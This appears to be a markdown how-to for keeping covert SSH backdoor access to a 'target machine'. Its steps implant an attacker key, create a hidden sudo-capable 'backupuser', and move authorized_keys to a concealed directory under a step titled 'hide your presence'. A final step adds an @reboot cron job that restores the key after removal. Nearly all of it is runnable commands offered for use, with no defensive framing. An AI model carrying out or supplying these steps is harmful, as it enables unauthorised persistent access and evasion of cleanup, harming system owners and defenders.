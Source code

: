 ### **STEP 1. GENERATE SSH KEYS**

1. Generate an SSH key pair on your local machine:
`ssh-keygen -t rsa -b 4096 -f ~/.ssh/persistence_key`
	- `-t rsa`: Specifies the type of key to create (RSA).
	- `-b 4096`: Specifies the number of bits in the key.
	- `-f ~/.ssh/persistence_key`: Specifies the file in which to save the key.

### **STEP 2: COPY THE PUBLIC KEY TO THE TARGET MACHINE**

1.  Copy the public key to the target machine using SSH:
    `ssh-copy-id -i ~/.ssh/persistence_key.pub user@target_machine`
2.  Alternatively, manually add the public key to the target machine `~/.ssh/authorized_keys` file:  
    `cat ~/.ssh/persistence_key.pub | ssh user@target_machine "mkdir -p ~/.ssh && cat >> ~/.ssh/authorized_keys"`

### **STEP 3. ENSURE PROPER PERMISSIONS**

On the target machine, ensure the `.ssh` directory and `authorized_keys` file have the correct permissions:

1.  Set the .ssh directory permissions to 700:  
    `chmod 700 ~/.ssh`
2.  Set the authorized_keys file permissions to 600:  
    `chmod 600 ~/.ssh/authorized_keys`

### **STEP 4. CONFIGURE SSH FOR KEY-BASED AUTHENTICATION**

Verify the SSH server configuration on the target machine to ensure key-based authentication is enabled. Edit /etc/ssh/sshd_config:  
`sudo nano /etc/ssh/sshd_config`

1.  Ensure the following lines are present and uncommented:  
    `PubkeyAuthentication yes`  
    `AuthorizedKeysFile .ssh/authorized_keys`
    
2.  Restart the SSH service to apply the changes:  
    `sudo systemctl restart sshd`
    
3.  Test SSH access using the private key:  
    `ssh -i ~/.ssh/persistence_key user@target_machine`
    

### **STEP 5. ESTABLISH A BACKUP SSH USER**

Create a new user on the target machine as a backup entry point:

1.  Add a new user:  
    `sudo adduser backupuser`
2.  Add the new user to the `sudo` group:  
    `sudo usermod -aG sudo backupuser`
3.  Add your public key to the new user `authorized_keys` file:  
    `ssh-copy-id -i ~/.ssh/persistence_key.pub backupuser@target_machine`

### **STEP 6. HIDE YOUR PRESENCE**

Move the authorized_keys file to a hidden location and create a symbolic link:

1.  Create a hidden directory:  
    `mkdir -p ~/.config/.ssh`  
    
2.  Move the authorized_keys file:  
    `mv ~/.ssh/authorized_keys ~/.config/.ssh/authorized_keys`  
   
3.  Create a symbolic link:  
    `ln -s ~/.config/.ssh/authorized_keys ~/.ssh/authorized_keys`  


### **STEP 7. SET UP A CRON JOB FOR PERSISTENCE**

1.  Create a cron job to ensure your SSH key is re-added if removed:  
    `(crontab -l ; echo "@reboot sleep 60 && cat ~/.config/.ssh/authorized_keys >> ~/.ssh/authorized_keys") | crontab -`